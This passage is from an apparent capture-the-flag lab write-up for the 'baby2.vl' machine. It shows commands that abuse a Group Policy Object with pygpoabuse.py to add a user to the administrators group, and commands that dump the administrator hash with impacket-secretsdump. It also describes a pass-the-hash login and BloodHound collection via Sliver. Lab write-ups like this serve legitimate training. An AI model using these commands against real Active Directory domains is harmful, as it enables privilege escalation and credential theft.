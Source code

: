 
We can use [pygpoabuse.py](https://github.com/Hackndo/pyGPOAbuse) to add the `gpoadm` user to the Administrator group.

```
python3 pygpoabuse.py 'baby2.vl/gpoadm:Password123!' -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 -f -dc-ip 10.10.92.249 -command 'net localgroup administrators /add gpoadm'
```

<img src="attachments/668ab81238248b9ccfa2b241c4cf5c0c.png" />

Using CrackMapExec, we were able to see that the attack worked after a few minutes.

<img src="attachments/f706ffeecabebed627f97fc473ed64bd.png" />

Since we were part of the Domain Admins, we used Impacket's `secretsdump` to dump the hash of the administrator.

```
impacket-secretsdump 'gpoadm'@dc.baby2.vl
```

We were then able to log in as the administrator using a pass-the-hash attack with the hash and obtained the root flag.

<img src="attachments/9f6d041f49c1d8ba817c6b78b622b9ca.png" />

---
#### Extra mile :

We installed BloodHound CE using Docker Compose and injected the BloodHound ZIP file we got from Sharhound-4 in Sliver, then were able to see the attack paths.

<img src="attachments/ff084d59270f9243024400b1a1562e24.png" />
